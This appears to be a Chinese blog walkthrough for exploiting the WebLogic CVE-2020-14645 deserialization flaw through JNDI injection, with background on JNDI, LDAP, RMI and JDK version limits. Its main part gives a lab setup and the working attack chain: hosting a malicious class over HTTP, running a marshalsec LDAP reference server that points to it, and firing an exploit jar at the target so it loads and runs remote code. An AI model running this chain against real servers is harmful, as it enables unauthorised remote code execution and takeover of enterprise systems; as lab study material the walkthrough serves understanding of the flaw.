






已经有很多分析文章了，直接讲利用实在点
需要知道的背景知识
weblogic及weblogic版本选择
WebLogic应用服务器产品系列是业界最全面的开发、部署和集成企业管理软件的平台。简而言之就是中间件，是应用服务器。因为使用的是com.tangosol.util.extractor.UniversalExtractor这个类Weblogic 12.2.1.4的包
JNDI及利用原理
- JNDI是SUN公司提供的一种标准的Java命名系统接口
- JNDI可访问的现有的目录及服务有：
1DNS、XNam 、Novell目录服务、LDAP(Lightweight Directory Access Protocol轻型目录访问协议)、 CORBA对象服务、文件系统、Windows XP/2000/NT/Me/9x的注册表、RMI、DSML v1&v2、NIS。
利用原理
- 客户端的lookup()方法
- JDNI注入由于其加载动态类原理是JNDI Reference远程加载Object Factory类的特性
LDAP、RMI及关于RMI、LDAP的选择
- LDAP的中文全称是轻量级目录访问协议
- Java RMI是Java语言的远程调用(官方定义:java 编程接口)
jdk版本在jndi注入中也起着至关重要的作用，而且不同的攻击对jdk的版本要求也不一致。

JDK 6u45、7u21之后：
java.rmi.server.useCodebaseOnly的默认值被设置为true。当该值为true时，将禁用自动加载远程类文件，仅从CLASSPATH和当前JVM的java.rmi.server.codebase指定路径加载类文件。使用这个属性来防止从其他Codebase地址上动态加载类，增加了RMI ClassLoader的安全性。JDK 6u141、7u131、8u121之后：增加了
com.sun.jndi.rmi.object.trustURLCodebase选项，默认为false，禁止RMI和CORBA协议使用远程codebase的选项，因此RMI和CORBA在以上的JDK版本上已经无法触发该漏洞，但依然可以通过指定URI为LDAP协议来进行JNDI注入攻击。JDK 6u211、7u201、8u191之后：增加了
com.sun.jndi.ldap.object.trustURLCodebase选项，默认为false，禁止LDAP协议使用远程codebase的选项，把LDAP协议的攻击途径也给禁了。
靶机环境
1 | jdk: 8u181(因为版本原因，后续我们用LDAP) |
2 | weblogic: 12.2.1.4.0 |
搭建靶机可以用我最下面分享的一个github上的工具快速搭建，也可以直接镜像= =或者docker-compose.yml
docker-compose.yml
1version: '2'2services:3weblogic:4image: z1du/weblogic12214jdk8u1815ports:6- "7001:7001"
漏洞利用

1 | 开启http服务 |
2 | python -m http.server 5001 |

开启ldap服务(此处192.168.71.128为本机ip)
开启rmi方法差不多，我们只需要将LDAPRefServer改为RMIRefServer即可
1 | LDAP_ip:LDAP_port/#后面填写你的恶意类的类名 |
2 | 1099是你开启rmi服务的端口号，如果不加端口号，它的默认端口号为1099。 |
3 | ldap的默认开启端口是1389(无视这边1099，懒得改) |
4 | |
5 | java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://192.168.71.128:5001/#exp 1099 |
👇

此处192.168.71.133为靶机ip
1 | LDAP_ip:LDAP_port/#Class_name weblogic_ip:weblogic_port |
2 | java -jar CVE-2020-14645.jar 192.168.71.128:1099/#exp http://192.168.71.133:7001 |
exp.java


工具
Weblogic_CVE-2020-14645反序列化漏洞验证程序